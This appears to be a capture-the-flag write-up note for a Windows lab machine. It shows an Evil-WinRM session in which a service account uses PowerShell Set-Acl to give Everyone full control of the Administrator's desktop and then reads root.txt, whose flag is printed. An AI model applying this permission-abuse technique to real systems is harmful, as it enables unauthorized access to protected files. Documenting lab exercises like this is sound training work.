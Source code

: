 
[[../../../Tools n Info/09 - Windows Exploration/PrivEsc/Privileges/SeBackupPriviledge - File Permission changes|SeBackupPriviledge - File Permission changes]]

this gave us permissions to read the root.txt without privescing

```powershell
*Evil-WinRM* PS C:\Users\svc-printer\desktop> Set-Acl "C:\users\Administrator\desktop" (Get-Acl "C:\users\Administrator\desktop" | %{$_.AddAccessRule((New-Object System.Security.AccessControl.FileSystemAccessRule("Everyone","FullControl","ContainerInherit,ObjectInherit","None","Allow")));$_})

*Evil-WinRM* PS C:\Users\svc-printer\desktop> Get-Acl "C:\users\Administrator\desktop" | fl


Path   : Microsoft.PowerShell.Core\FileSystem::C:\users\Administrator\desktop
Owner  : BUILTIN\Administrators
Group  : RETURN\Domain Users
Access : Everyone Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         RETURN\Administrator Allow  FullControl
Audit  :
Sddl   : O:BAG:DUD:AI(A;OICI;FA;;;WD)(A;OICIID;FA;;;SY)(A;OICIID;FA;;;BA)(A;OICIID;FA;;;LA)
```

```powershell
*Evil-WinRM* PS C:\Users\svc-printer\desktop> cd "C:\users\Administrator\desktop"
*Evil-WinRM* PS C:\users\Administrator\desktop> ls


    Directory: C:\users\Administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/29/2025   8:05 AM             34 root.txt


*Evil-WinRM* PS C:\users\Administrator\desktop> type root.txt
69f76b32a91c06174a9b82427697908a
```

